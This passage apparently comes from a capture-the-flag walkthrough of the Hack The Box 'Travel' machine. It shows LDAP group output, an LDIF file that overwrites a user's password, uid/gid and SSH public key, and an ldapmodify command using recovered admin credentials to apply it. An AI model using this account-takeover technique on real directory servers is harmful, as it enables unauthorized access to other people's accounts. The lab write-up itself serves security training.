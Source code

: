 ```
dn: cn=domainusers,ou=groups,ou=linux,ou=servers,dc=travel,dc=htb
memberUid: frank
memberUid: brian
memberUid: christopher
memberUid: johnny
memberUid: julia
memberUid: jerry
memberUid: louise
memberUid: eugene
memberUid: edward
memberUid: gloria
memberUid: lynik
gidNumber: 5000
cn: domainusers
objectClass: top
objectClass: posixGroup

# search result
search: 2
result: 0 Success

# numResponses: 22
# numEntries: 21
```

That hashed password decodes to "Theroadlesstraveled" which we already knew.

We can edit one of the users to allow us to SSH in under another user id, with a ldif file:

new.ldif:

```
dn: uid=frank,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changetype: modify
replace: userPassword
userPassword: {SSHA}0JZzQwnVI4FkqtTkzQYLUcvd7SpF1QbDcTRmkw==
-
replace: uidNumber
uidNumber: 1000
-
replace: gidNumber
gidNumber: 1000
-
add: objectClass
objectClass: ldapPublicKey
-
add: sshPublicKey
sshPublicKey: (your id_rsa.pub key here)
```

Now, we can use ldapmodify to put these changes into effect:

ldapmodify -a -H ldap://ldap.travel.htb -x -D "cn=lynik-admin,dc=travel,dc=htb" -w Theroadlesstraveled -f new.ldif 
